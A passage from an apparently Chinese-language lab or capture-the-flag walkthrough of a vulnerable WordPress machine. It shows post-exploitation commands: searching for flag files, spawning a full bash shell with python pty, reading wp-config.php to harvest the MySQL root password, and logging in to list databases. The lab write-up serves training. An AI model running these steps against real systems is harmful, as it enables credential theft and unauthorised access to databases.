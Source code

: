 使用find查找flag文件

```
 find ./ -name "flag*"
```

![image-20220301200327439](https://gitee.com/xxb667/img/raw/master/img/image-20220301200327439.png)

### 切换终端

使用python获得完整性shell

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

![image-20220301190836418](https://gitee.com/xxb667/img/raw/master/img/image-20220301190836418.png)

### 获得MySQL账号密码

没有在网上找到可以利用的内核提权脚本，这里继续进行信息搜集

在/var/www/html/wordpress/wp-config.php中发现mysql数据库密码

```
账户：root
密码：R@v3nSecurity
```

![image-20220301171701565](https://gitee.com/xxb667/img/raw/master/img/image-20220301171701565.png)

```
cat wp-config.php
```



<img src="https://gitee.com/xxb667/img/raw/master/img/image-20220301171823683.png" style="zoom:50%;" />

登录MySQL

登录mysql服务，进行信息搜集

```
mysql -uroot -pR@v3nSecurity
```

![image-20220301191000126](https://gitee.com/xxb667/img/raw/master/img/image-20220301191000126.png)

显示所有数据库信息

```
show databases;
```

![image-20220301191103546](https://gitee.com/xxb667/img/raw/master/img/image-20220301191103546.png)

查看wordpress数据库
